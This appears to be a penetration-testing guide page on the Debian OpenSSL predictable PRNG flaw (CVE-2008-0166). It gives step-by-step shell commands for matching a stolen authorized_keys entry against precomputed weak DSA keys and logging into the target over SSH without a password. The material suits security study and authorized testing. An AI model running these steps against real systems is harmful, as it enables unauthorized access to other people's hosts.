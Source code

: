 # Debian OpenSSL Predictable PRNG \(CVE-2008-0166\)

This section is about how to leverage an exfiltrated authorized\_keys file to gain access to the target host.

References:

* [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)
* [https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md)

### Requirements for Exploit

* authorized\_keys file from the target server
* SSH-DSS String from authorized\_keys file

### Steps to Exploit Weakness

1. Get the authorized\_keys file. An example of this file would look like so:

```text
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config`:

```text
PubkeyAcceptedKeyTypes +ssh-dss
```

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```text
git clone https://github.com/g0tmi1k/debian-ssh
tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. Grep the authorized\_keys file content against the unpacked keys \(the first 20-30 characters should be enough to find the right key\):

```text
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247f' dsa/
```

Note, if there are plus symbols stop at the them as we don't want `grep` to attempt to interpret them as quantifiers \(regexp\). 

IF SUCCESSFUL, the command will return a file, for example:

```text
dsa/1024/84739yufh987fg38fg39847fg38fg3f34f.pub
```

5. We can now use the corresponding private key file to authenticate:

```text
ssh -vvv victim@target -i dsa/1024/84739yufh987fg38fg39847fg38fg3f34f
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

